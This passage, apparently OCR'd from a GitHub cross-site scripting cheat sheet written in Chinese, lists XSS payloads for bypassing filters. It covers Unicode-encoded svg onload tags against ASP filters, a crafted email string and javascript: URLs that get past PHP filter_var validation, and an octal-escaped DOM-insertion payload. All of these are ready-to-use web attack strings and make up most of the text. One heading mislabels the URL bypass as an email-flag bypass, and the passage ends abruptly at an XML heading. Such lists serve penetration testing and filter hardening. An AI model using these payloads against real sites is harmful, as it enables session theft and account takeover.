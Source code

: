 

## 专用于 ASP 页面的攻击payload

**用于绕过 ASP 页面中的 `<[alpha]` 过滤。**

```javascript
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)>
%uFF1Csvg onload=alert(3)>
```



## PHP邮箱验证绕过

**用于绕过PHP的 filter_var() 函数中的 FILTER_VALIDATE_EMAIL 标志。 **

```javascript
"><svg/onload=alert(1)>"@x.y
```



## PHP URL 验证绕过

**用于绕过PHP的`filter_var()`函数中的`FILTER_VALIDATE_EMAIL`标志  **

```javascript
javascript://%250Aalert(1)
```



## PHP URL验证绕过 -- 需要查询参数

**用于绕过 PHP 的 `filter_var()` 函数中结合 `FILTER_FLAG_QUERY_REQUIRED` 标志的 `FILTER_VALIDATE_EMAIL` 验证。**

```javascript
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

(with domain filter)
javascript://https://DOMAIN/%250A1?alert(1):0
```



## 通过服务器端反射实现 DOM 插入

**当输入出现在页面源代码但无法直接执行时，通过将其插入到DOM中来绕过浏览器过滤和WAF**

```javascript
\74svg o\156load\75alert\501\51\76 
```



## 基本XML的绕过 bypass
